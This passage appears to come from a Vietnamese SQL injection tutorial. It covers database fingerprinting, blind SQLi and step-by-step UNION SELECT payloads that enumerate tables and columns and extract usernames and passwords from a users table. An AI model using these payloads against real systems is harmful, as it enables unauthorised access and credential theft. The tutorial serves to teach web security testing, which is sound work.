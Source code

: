 ### Xác định loại database:

Dùng các hàm hoặc biến hệ thống đặc trưng của từng loại database để kiểm tra.

- MySQL: `SELECT @@version` (trả về phiên bản MySQL, ví dụ: 8.0.23).
- MSSQL: `SELECT @@version` (trả về thông tin SQL Server, ví dụ: Microsoft SQL Server 2019).
- PostgreSQL: `SELECT version()` (trả về PostgreSQL 15.1).
- Oracle: `SELECT banner FROM v$version` (trả về Oracle Database 19c).

Lưu ý: Nếu không hiển thị trực tiếp, thử Blind SQLi như `AND substring(@@version,1,1)='A'` để suy ra từng ký tự.

**Kết quả mong đợi:** Biết chính xác số cột và loại cơ sở dữ liệu , tạo tiền đề cho khai thác dữ liệu.

## 4. Khai thác dữ liệu

### Bước 1: Lấy danh sách bảng

Dựa vào bảng hệ thống (system table) của từng loại database để truy vấn danh sách bảng.

**MySQL**: Sử dụng `information_schema.tables`.

- Câu lệnh: `UNION SELECT table_name,2,3 FROM information_schema.tables WHERE table_schema=database() --`

**MSSQL**: Sử dụng `sys.tables`.

- Câu lệnh: `UNION SELECT name,2,3 FROM sys.tables --`

**PostgreSQL**: `UNION SELECT table_name,2,3 FROM information_schema.tables WHERE table_schema='public' —`
Kết quả: Trả về tên các bảng như users, products, orders.

### Bước 2: Lấy danh sách cột

Truy vấn các cột trong bảng mục tiêu (ví dụ: users).

Cách thực hiện:

- MySQL: `UNION SELECT column_name,2,3 FROM information_schema.columns WHERE table_name='users' --`  (’user’ là tên bảng lấy được từ bước 1 )
- MSSQL: `UNION SELECT column_name,2,3 FROM information_schema.columns WHERE table_name='users' --`

Kết quả: Trả về như id, username, password.

### Bước 3: Trích xuất dữ liệu

Dùng UNION SELECT để lấy dữ liệu từ các cột đã xác định.

Ví dụ:

- http://example.com/product?id=1 UNION SELECT username,password,3 FROM users --
- Kết quả: Trang hiển thị "admin | 123456" → Lấy được thông tin đăng nhập.

Nếu nhiều dòng dữ liệu, thử thêm LIMIT ( hoặc `group_concat()`):

- UNION SELECT username,password,3 FROM users LIMIT 1 OFFSET 0 -- (dòng đầu tiên).
- UNION SELECT username,password,3 FROM users LIMIT 1 OFFSET 1 -- (dòng thứ hai).
